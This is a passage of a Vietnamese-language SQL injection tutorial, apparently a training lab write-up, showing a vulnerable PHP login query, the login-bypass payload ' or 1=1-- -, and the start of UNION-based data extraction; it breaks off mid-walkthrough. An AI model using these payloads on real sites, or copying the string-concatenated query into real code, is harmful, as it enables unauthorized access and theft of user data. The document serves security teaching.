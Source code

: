![image](https://github.com/itravnn/kcsc_train/assets/127108265/db25dfd1-764c-4a83-84e7-df86d6528294)

Trang đăng nhập

![image](https://github.com/itravnn/kcsc_train/assets/127108265/7c0ef1ba-a1ae-4b1d-be5d-c8142f56bf0e)

Sau khi đăng nhập thành công

![image](https://github.com/itravnn/kcsc_train/assets/127108265/d8439d85-95ff-499d-ba4f-8580da089d53)

## Lỗi SQL<a name='c4'></a>
Để kiểm thử xem trang web có dính lỗi sql hay không ta có thể thử bằng cách nhập `' or 1=1-- -` vào phần đăng nhập, còn phần mật khẩu thì tùy ý

![image](https://github.com/itravnn/kcsc_train/assets/127108265/71e85f2c-4a69-4b2b-a03d-0e2effcc05d3)

Kết quả hiển thị

![image](https://github.com/itravnn/kcsc_train/assets/127108265/c5ad7638-9e7e-4560-a2b5-33b7a6768f53)

Nếu hiển thị đăng nhập thành công tức là phần code dính lỗi

```
$sql = "select * from tbl_user where username = '$username' and password = '$password' "
```

KHi truyền 2 tham số usename=`' or 1=1-- -` và password = d

Câu sql được truy cập sẽ là

```
$sql = "select * from tbl_user where username = '' or 1=1-- -' and password = 'd' "
```

Câu SQL này có nghĩa là không cần quan tâm tới username và password nhập vào vì 1 thì lúc nào mà không bằng 1, nên câu lệnh luôn đúng.

_Dấu **--** trong sql và mysql được hiểu là chú thích, không xử lý tới dữ liệu sau dấu **--** này_

Hiểu sơ về cách hoạt động như vầy rồi, sau đây thì ta sẽ sử dụng 1 số câu truy vấn để lấy được data người dùng

## Khai thác SQL Injection bằng cách sử dụng UNION<a name='c5'></a>

```
' UNION SELECT 1-- -
```

Câu lệnh này sẽ tạo ra một thông báo lỗi cho bạn biết rằng câu lệnh UNION SELECT có số cột khác với truy vấn SELECT ban đầu.

![image](https://github.com/itravnn/kcsc_train/assets/127108265/35b6c7bb-a3eb-4ba5-a9c2-795203f9fcad)

Thử lại bằng cách thêm cột khác
